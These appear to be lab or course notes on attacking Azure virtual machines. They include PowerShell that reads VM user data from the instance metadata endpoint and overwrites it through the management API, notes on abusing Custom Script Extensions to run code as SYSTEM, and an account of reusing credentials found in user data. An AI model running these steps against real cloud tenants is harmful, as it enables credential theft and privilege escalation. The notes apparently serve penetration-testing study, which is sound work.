 ```powershell
# Retrieve user data
$userData=Invoke-RestMethod-Headers@{"Metadata"="true"} -Method GET -Uri"http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text"
[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))

# Modify user data
$resourceGroup = ""
$sub = ""
$vmName = ""
$location = ""

$data=[Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("whoami"))
$accessToken=(Get-AzAccessToken).Token
$Url="https://management.azure.com/subscriptions/$sub/resourceGroups/$resourceGroup/providers/Microsoft.Compute/virtualMachines/$vmName?api-version=2021-07-01"
$body=@(
@{
location ="$location"
properties =@{
userData="$data"
}
}
) |ConvertTo-Json-Depth4
$headers=@{Authorization ="Bearer $accessToken"}

# Execute Rest API Call
$Results=Invoke-RestMethod -Method Put -Uri $Url -Body $body -Headers $headers -ContentType'application/json'
```

### Azure VM - Script Extensions

"Small Applications" Extensions run as SYSTEM via inline or remote script (from blob via managed identity). Can be deployed to a running VM. Only one extension can be added to a VM. It is not possible to add multiple custom script extensions to a single VM. 

Custom Script Extension is what we abused twice already in the Deployment reading, for Steven King's creds earlier. Used as a short-cut where a managed identity would be better often. 
 
Required to modify
 Microsoft.Compute/virtualMachines/extensions/write
 Microsoft.Compute/virtualMachines/extensions/read (if you want to see the output)

The user data contained creds for SamCGray, so we connect az him and see he has at least reader on the MicrosftmOnitoringAgent extension running on infradminsrv with our familiar Get-AzResource and Get-AzRoleAssignment

***INTERESTINGNOTE: Get-AzResource shows us the reader+ on the extension itself. Get-AzRoleAssignment shows NOTHING. Doesnt mean we cant list role assignments, it means Get-AzRoleAssignment is incapable of reading roles ON EXTENSIONS THEMSELVES. So be aware, that even with Az we can miss things. We have to use the API for this.

```powershell
$Token = (Get-AzAccessToken).Token
$Url="https://management.azure.com/subscriptions/$sub/resourceGroups/$resourceGroup/providers/Microsoft.Compute/virtualMachines/infraadminsrv/providers/Microsoft.Authorization/permissions?api-version=2015-07-01"

$RequestParams = @{
    Method = GET
    Uri = $Url
    Headers = @{
        'Authorization' = "Bearer $Token"
    }
}
(Invoke-RestMethod $RequestParams).Value
```
